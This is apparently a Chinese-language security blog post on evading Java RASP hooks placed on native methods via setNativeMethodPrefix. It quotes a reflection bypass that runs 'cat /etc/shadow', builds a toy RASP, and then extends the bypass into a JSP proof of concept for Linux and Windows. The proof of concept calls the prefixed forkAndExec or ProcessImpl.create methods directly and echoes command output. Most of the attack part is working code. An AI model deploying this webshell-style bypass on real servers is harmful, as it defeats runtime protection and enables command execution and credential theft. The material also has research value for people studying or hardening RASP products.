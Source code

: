 # Bypass RASP NativeMethodPrefix学习


<meta name="referrer" content="no-referrer" />


## 背景

众所周知，Java的RASP是没有办法直接Hook Native方法的，但确实有这个场景的需求。于是JDK官方出了一个java.lang.instrument.Instrumentation#setNativeMethodPrefix，在Java方法映射C++方法的时候加一个前缀，这样相当于创建一个了原有Native方法的代理，从而实现了Hook Native方法。 



jrasp应该是最早公开介绍该技术用于RASP防御的（经su18师傅提醒，严谨一些）：https://www.jrasp.com/guide/technology/native_method.html。



但是当攻击者有一定代码执行权限的时候，还是可以绕过。以命令执行来说，原来的Native方法为forkAndExec，加个前缀变成prefix_forkAndExec，那么我们只需要反射调用prefix_forkAndExec这个新的方法名即可。 



turn1tup师傅给出了一个绕过的demo，核心逻辑为通过反射拿到真正的native方法，即可绕过RASP对于命令执行的hook:

https://github.com/turn1tup/JvmRaspBypass/blob/main/src/main/java/com/test/RaspExample.java

```plain
try {
    Class<?> clazz = Class.forName("java.lang.UNIXProcess");

    //cmd2,bypass jrasp native hook
    for (Method m : clazz.getDeclaredMethods()) {
        if (m.getName().endsWith("forkAndExec")&&!m.getName().equals("forkAndExec")) {
            m.setAccessible(true);
            System.out.println("prefix native method : "+m.getName());
            Cmd.linuxCmd(new String[]{"/bin/bash","-c","cat /etc/shadow && touch /tmp/shadow2"},m);
        }
    }
} catch (Exception ignore) {
    ignore.printStackTrace();
}
```



最近在实际攻防中发现该方式挺有用的，因此本人进行扩展，实现了一个Win/Linux下通用的，自动绕过MethodPrefix的，可回显的，反射Native方法执行命令的JSP Demo。

## 搞一个简单的RASP

为了测试，先模拟一个setNativeMethodPrefix的RASP，参考 https://www.secrss.com/articles/49044，主要逻辑为：

1.移除想要hook的native方法。

2.增加一个native方法，这个方法和hook的native方法除了方法名增加prefix，其他相同。

3.增加一个和hook native方法同名的java方法（除了native modifier之外其他和hook native 方法相同），其中返回时调用prefix native方法。

这里为了简单起见直接throw Exception，把命令执行给干掉。



核心代码如下：

```plain
public static byte[] transformed() {
      ClassPool pool = ClassPool.getDefault();
      CtClass clazz = null;
      try {
          System.out.println("start convert java.lang.UNIXProcess");
          clazz = pool.getCtClass("java.lang.UNIXProcess");
          if (clazz.isFrozen()) {
              clazz.defrost();
          }
          CtMethod method = CtNewMethod.make("int myPrefix_forkAndExec(int var1, byte[] var2, byte[] var3, byte[] var4, int var5, byte[] var6, int var7, byte[] var8, int[] var9, boolean var10);", clazz);
          method.setModifiers(Modifier.PRIVATE | Modifier.NATIVE);
          System.out.println("add new native method myPrefix_forkAndExec");
          clazz.addMethod(method);
          CtMethod method1 = clazz.getDeclaredMethod("forkAndExec");
          System.out.println("remove old native method forkAndExec");
          clazz.removeMethod(method1);
          CtMethod method2 = CtNewMethod.make("int forkAndExec(int var1, byte[] var2, byte[] var3, byte[] var4, int var5, byte[] var6, int var7, byte[] var8, int[] var9, boolean var10) { throw new RuntimeException(\"RASP hooked forkAndExec\"); }", clazz);
          System.out.println("add new method forkAndExec");
          clazz.addMethod(method2);
          return clazz.toBytecode();
      } catch (Exception e) {
          e.printStackTrace();
      }
      return new byte[0];
  }
```



直接命令执行会被干掉

![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1703745639658-e0cb2b7e-5b4d-492d-af51-0aafd632c8a0.png)

## 兼容无MethodPrefix场景&添加回显

把turn1tup师傅的代码改成JSP版本

![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1702620703364-0b47a09d-b95e-4c9d-bd3d-65c403d1b226.png)



![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1702620650321-1557bd8b-79a5-43b4-a459-b998e84eefd8.png)

可以绕过并执行命令，但是没回显，并且turn1tup师傅的代码仅适用于设置了MethodPrefix的场景，没设置反而不行。

javasec有一个Linux下反射Native执行命令并回显的demo，直接拿来改改

核心代码：

```plain
try {
        Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });

        forkMethod.setAccessible(true);// 设置访问权限
        int pid = (int) forkMethod.invoke(processObject, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        });
    } catch (Exception e) {
        System.out.println("[-] reflect forkAndExec failed,try to bypass");
        for (Method m : processClass.getDeclaredMethods()) {
            if (m.getName().endsWith("forkAndExec") && !m.getName().equals("forkAndExec")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                int pid = (int) m.invoke(processObject, new Object[]{
                        ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                        null, envc[0], null, std_fds, false
                });
            }
        }
    }
```



效果

![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1703671179600-8b0a1561-479d-4fc3-98d6-100f53cfdbeb.png)



![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1703671168183-676f0fc7-352e-455b-bce5-3dafc811a1b2.png)



## 支持Windows

搜了一下发现公开的调用Native绕过的都是Linux平台的，debug看了一下Windows的

![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1703661903360-c000b105-8079-48ce-8f59-d86d9e17c604.png)

Windows反射Native更简单：Windows执行命令对应的Native方法是java.lang.ProcessImpl#create，create方法是个static，不需要实例化对象就可以调用；另外获取回显的文件描述符stdHandles也不像Linux那么多处理分支，可以直接用代码实现，不需要再反射调用。

![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1703662040978-1c1532a5-f916-48c6-9963-80dd71a9a9b0.png)



核心代码：

```plain
public static String WinCreateProcess(String cmd) throws Exception {
    Class<?> processImplClass = Class.forName("java.lang.ProcessImpl");
    long[] stdHandles = new long[]{-1, -1, -1}; // Initialize as invalid handles.
    sun.misc.JavaIOFileDescriptorAccess fdAccess
            = sun.misc.SharedSecrets.getJavaIOFileDescriptorAccess();

    // 这里将 redirectErrorStream 设置为 true 以便于将错误输出重定向到标准输出
    boolean redirectErrorStream = true;
    try {
        Method createMethod = processImplClass.getDeclaredMethod("create",
                String.class, String.class, String.class, long[].class, boolean.class);
        createMethod.setAccessible(true);
        long processHandle = (Long) createMethod.invoke(null, cmd, null, null, stdHandles, redirectErrorStream);
    } catch (Exception e) {
        System.out.println("[-] reflect create failed,try to bypass");
        for (Method m : processImplClass.getDeclaredMethods()) {
            if (m.getName().endsWith("create") && !m.getName().equals("create")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                long processHandle = (Long) m.invoke(null, cmd, null, null, stdHandles, redirectErrorStream);
            }
        }
    }

    FileDescriptor stdout_fd = new FileDescriptor();
    fdAccess.setHandle(stdout_fd, stdHandles[1]);
    InputStream stdout_stream = new BufferedInputStream(
            new FileInputStream(stdout_fd));

    return getStreamStr(stdout_stream, "GBK");
}
```

效果

直接执行命令，会被干掉。

![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1703668741179-37a18436-7e4c-4447-a007-b908f0b71145.png)

运行POC，即可绕过。

![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1703668900616-d6d81d61-a5f3-414c-835f-7cc428663225.png)



![img](https://cdn.nlark.com/yuque/0/2023/png/1599908/1703668886446-00547ed4-fcc0-4a2e-9f9d-c58aa8a45dc9.png)
